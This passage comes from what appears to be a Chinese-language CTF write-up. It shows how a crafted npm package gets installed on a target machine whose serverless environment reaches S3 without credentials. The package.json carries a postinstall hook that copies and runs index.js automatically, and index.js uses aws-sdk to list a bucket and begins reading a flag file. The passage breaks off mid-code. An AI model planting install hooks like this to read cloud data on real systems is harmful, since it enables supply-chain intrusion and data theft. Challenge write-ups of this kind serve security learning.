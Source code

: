 ```
	console.log("Success", data);
  }
});

exports.showMsg = function () {
  console.log("This is my first module");
};
```

读出 s3 里存的东西，从 serverless 里连接是不需要凭证的。

然后让靶机下载这个包。

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561308385a0d03c07be7bfdc8f4bc98cec33f937d-1024x597.png)

解压，看到开头有个 flag 文件。

![](https://www.zhaoj.in/wp-content/uploads/2019/06/15613085242c918e3912e5a7b9f8ce0198258a3d05-1024x586.png)

11、继续更改 package.json，提升版本。

```
{
  "name": "glzjintest1",
  "version": "1.1.0",
  "description": "",
  "main": "index.js",
  "scripts": {
	"postinstall": "cp index.js ../../test.js &amp;&amp; cd ../../ &amp;&amp; node test.js > result.txt; exit 0"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
	"aws-sdk": "^2.449.0"
  }
}
```

然后修改 index.js，为其添加读取这个 flag 文件的代码。

```
const AWS = require("aws-sdk");

const s3Parme = {
	// accessKeyId:"xxxxxxxxxxxxxxxx",
	// secretAccessKey:"xxxxxxxxxxxxxxxxxxx",
}

var s3 = new AWS.S3(s3Parme);

// Create the parameters for calling listObjects
var bucketParams = {
  Bucket : 'static.l0ca1.xyz',
};

// Call S3 to obtain a list of the objects in the bucket
s3.listObjects(bucketParams, function(err, data) {
  if (err) {
	console.log("Error", err);
  } else {
	console.log("Success", data);
  }
});

var fileParam = {
```